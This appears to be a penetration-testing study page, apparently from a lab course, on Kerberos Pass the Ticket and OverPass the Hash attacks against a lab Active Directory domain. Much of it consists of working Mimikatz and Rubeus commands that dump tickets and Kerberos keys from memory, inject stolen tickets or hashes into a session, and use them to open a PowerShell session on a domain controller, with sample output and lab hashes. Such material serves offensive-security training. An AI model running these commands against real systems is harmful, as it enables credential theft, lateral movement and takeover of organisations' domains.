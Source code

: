  In a [Pass the Ticket (PtT) attack](https://attack.mitre.org/techniques/T1550/003/), we use a stolen Kerberos ticket to move laterally instead of an NTLM password hash.
 
- The `TGT - Ticket Granting Ticket` is the first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or `TGS`.
- The `TGS - Ticket Granting Service` is requested by users who want to use a service. These tickets allow services to verify the user's identity.

When a user requests a `TGT`, they must authenticate to the domain controller by encrypting the current timestamp with their password hash. Once the domain controller validates the user's identity (because the domain knows the user's password hash, meaning it can decrypt the timestamp), it sends the user a TGT for future requests. Once the user has their ticket, they do not have to prove who they are with their password.

If the user wants to connect to an MSSQL database, it will request a Ticket Granting Service (TGS) to The Key Distribution Center (KDC), presenting its Ticket Granting Ticket (TGT). Then it will give the TGS to the MSSQL database server for authentication.

We need a valid Kerberos ticket to perform a `Pass the Ticket (PtT)`. It can be:

- Service Ticket (TGS - Ticket Granting Service) to allow access to a particular resource.
- Ticket Granting Ticket (TGT), which we use to request service tickets to access any resource the user has privileges.

Before we perform a `Pass the Ticket (PtT)` attack, let's see some methods to get a ticket using `Mimikatz` and `Rubeus`.
### Mimikatz
The tickets that end with `$` correspond to the computer account. User tickets have the user's name, followed by an `@` that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi`.
Export tickets
```bash
privilege::debug
sekurlsa::tickets /export
exit
```
View tickets
```powershell
dir *.kirbi
```
Jump back into Mimikatz and PtH using the ticket file name
```bash
kerberos::ptt "C:\programdata\[0;12bd0]-0-0-40810000-adot@cifs-web04.kirbi"
```
Privileges will be imported into current session
```powershell
dir \\dc01\c$
```
### Rubeus
Dump tickets in a Base64 format
```powershell
Rubeus.exe dump /nowrap
```
Import ticket/privileges into the current session using Base64 hash
```powershell
Rubeus.exe ptt /ticket:<B64 Output>
```
Use `.kirbi` exported file
```powershell
Rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
Convert `.kirbi` to base64
```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"))
```
Import ticket/privileges into the current session using rc4 hash
```powershell
Rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:3f74aa8f08f712f09cd5177b5c1ce50f /ptt
```

## Pass the Key or OverPass the Hash
The traditional `Pass the Hash (PtH)` technique involves reusing an NTLM password hash that doesn't touch Kerberos. The `Pass the Key` or `OverPass the Hash` approach converts a hash/key (rc4_hmac, aes256_cts_hmac_sha1, etc.) for a domain-joined user into a full `Ticket-Granting-Ticket (TGT)`. This technique was developed by Benjamin Delpy and Skip Duckwall in their presentation [Abusing Microsoft Kerberos - Sorry you guys don't get it](https://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it/18)
> [!NOTE] **Note**
> Mimikatz requires administrative rights to perform the Pass the Key/OverPass the Hash attacks, while Rubeus doesn't.

### Mimikatz
To forge our tickets, we need to have the user's hash; we can use Mimikatz to dump all users Kerberos encryption keys using the module `sekurlsa::ekeys`
```bash
mimikatz ~ sekurlsa::ekeys
<SNIP>

Authentication Id : 0 ; 444066 (00000000:0006c6a2)
Session           : Interactive from 1
User Name         : plaintext
Domain            : HTB
Logon Server      : DC01
Logon Time        : 7/12/2022 9:42:15 AM
SID               : S-1-5-21-228825152-3134732153-3833540767-1107

         * Username : plaintext
         * Domain   : inlanefreight.htb
         * Password : (null)
         * Key List :
           aes256_hmac       b21c99fc068e3ab2ca789bccbef67de43791fd911...
           rc4_hmac_nt       3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old      3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_md4           3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_nt_exp   3f74aa8f08f712f09cd5177b5c1ce50f
           rc4_hmac_old_exp  3f74aa8f08f712f09cd5177b5c1ce50f
<SNIP>

```
Perform attack
```bash
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```
### Rubeus
To forge a ticket using `Rubeus`, we can use the module `asktgt` with the username, domain, and hash which can be `/rc4`, `/aes128`, `/aes256`, or `/des`

```bash
Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap
```

## Pass The Ticket with PowerShell Remoting
To create a PowerShell Remoting session on a remote computer, you must have administrative permissions, be a member of the Remote Management Users group, or have explicit PowerShell Remoting permissions in your session configuration.

**Suppose we find a user account that doesn't have administrative privileges on a remote computer but is a member of the Remote Management Users group. In that case, we can use PowerShell Remoting to connect to that computer and execute commands.**

### Mimikatz

```powershell
C:\tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz ~ privilege::debug
Privilege '20' OK

mimikatz ~ kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"

* File: 'C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi': OK

mimikatz # exit
Bye!

c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01
[DC01]: PS C:\Users\john\Documents>
```
### Rubeus
```powershell
C:\tools>  Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt


c:\tools>powershell
Windows PowerShell
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\tools> Enter-PSSession -ComputerName DC01
[DC01]: PS C:\Users\john\Documents> whoami
inlanefreight\john
[DC01]: PS C:\Users\john\Documents> hostname
DC01

```